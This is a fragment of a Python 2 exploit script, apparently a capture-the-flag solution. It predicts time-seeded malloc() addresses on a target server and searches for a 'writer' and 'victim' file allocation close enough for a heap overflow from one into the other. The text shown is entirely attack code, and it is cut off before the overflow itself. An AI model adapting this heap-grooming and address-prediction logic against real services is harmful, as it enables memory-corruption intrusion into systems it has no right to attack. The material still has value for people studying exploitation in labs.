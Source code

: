 ```python
	
	for i in xrange(len(sorted_lst)-1):
		if sorted_lst[i+1] - sorted_lst[i] < min_diff:
			min_pair = (sorted_lst[i], sorted_lst[i+1])
			min_diff = sorted_lst[i+1] - sorted_lst[i]
	
	min_idxs = lst.index(min_pair[0]), lst.index(min_pair[1])
	return min_idxs
	

def find_good_time(t):
	"""
	Input: 
		t -- a starting time that we want to start the search for a good malloc diff
	
	Output:
		ExploitInfo(target_time, malloc_writer, malloc_victim, mem_dist, home_addr):
		
		Which is built as follows:
			
			* target_time   - The time when we start to create files. Used to synchronize to the server's time.

			* malloc_writer - The address that malloc() will return for the WRITER (the `char* data` field!).
							  Remember, The writer is the file_entry that'll be used TO overflow into another file.

			* malloc_victim - The address that malloc() will return for the victim file.

			* mem_dist - The "distance" between the malloc_victim and malloc_writer.

			* home_addr - The address that was generated by malloc() to use for the home directory.

	"""
	
	ExploitInfo = namedtuple('ExploitInfo',
							 'target_time malloc_writer malloc_victim mem_dist home_addr')
	

	for time_offset in count(2):
		home_addr = init_prediction(t + time_offset)
		prediction()
		allocs = [prediction() for _ in xrange(100)]
		
		idx_a, idx_b = get_min_diff_idxs(allocs)
		diff = allocs[idx_b] - allocs[idx_a]
		
		if diff < 65000 and abs(idx_a - idx_b) > 1:
			log.info("Writer content @ 0x%x" % allocs[idx_a])
			log.info("Victim file @ 0x%x" % allocs[idx_b])

			return ExploitInfo(target_time=t+time_offset,
							   malloc_writer=idx_a,
							   malloc_victim=idx_b+1,
							   mem_dist=diff,
							   home_addr=home_addr)




#########################################
#                                       #
```